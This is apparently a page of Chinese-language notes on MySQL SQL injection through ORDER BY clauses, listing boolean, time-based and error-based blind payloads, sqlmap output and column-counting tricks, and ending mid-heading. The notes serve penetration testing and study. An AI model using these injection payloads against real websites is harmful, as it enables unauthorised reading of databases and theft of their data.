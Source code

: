 ```
http://wonderkun.cc/index.html/?p=547

```
盲注：
需要知道字段名
1，使用 if(1<2,id,domain)或者类似的表达式来布尔盲注或者时间盲注。

(select case when (true) then id else price end)

if((selectchar(substring(table_name,1,1)) from information_schema.tables limit 1)<=128),id,price)
条件判断之后选择的字段名，id，domain，不能是1，2，所以一定要知道字段名。猜测是写1，2的话被判断为字符了。

1,基于表达式结果盲注

案例：http://www.wooyun.org/bugs/wooyun-2010-07406

不过以上的这些技巧都需要一些条件，目前看来order by注入跟where条件注入具有同样的布尔盲注和时间注入的方式，利用方式也比较成熟。所以这些技巧只能用来开阔思路了。

成熟的利用方式
基于order by 1,2 时间盲注：
payload:

asc,if(locate(\''+payload+'\',substring(user(),'+str(i)+',1)),sleep(3),1)
基于order by 1,2 引起mysql错误进行盲注

payload:

id,if(1=1,1,(select 1 from information_schema.tables))
当条件为false是，值为select 1 from information_schema.tables，mysql会报错，Subquery returns more than 1 row，导致查询结果为空。

案例：http://www.wooyun.org/bugs/wooyun-2010-076151

基于 order by rand(true);order by rand(false);返回不同进行盲注
payload:rand(ascii(mid(database(),1,1))=109)

案例：http://www.wooyun.org/bugs/wooyun-2010-0152570

关于order by rand(true)和order by rand(false)返回不同的培训原理是 order by rand()会随机给每个数据生成一个随机数，然后按照随机数培训，true和false实际上转成了整形的1和0作为rand()的种子，这样给每一列都会成一个固定的数，然后根据这个数来排序，所以结果会不同。

参考这里的讨论：http://zone.wooyun.org/content/25733

sqlmap利用方式
使用level5 risk3

Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: sort=1 RLIKE (SELECT (CASE WHEN (9644=9644) THEN 1 ELSE 0x28 END))
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: sort=1 AND (SELECT * FROM (SELECT(SLEEP(5)))MVan)

```
```
### 有回显位的SQL注入：
```
判断列数：
order by num

limit后可以利用：
limit 1 into @,@    #（@为字段数）判断字段数@为mysql临时变量,这是是两列的例子

其他参考通用
```
### 无回显位但是有报错提示的：
#### xpath报错注入(mysql>=5.1.5，order by后也可用)：
```
(可获取31个字符)
```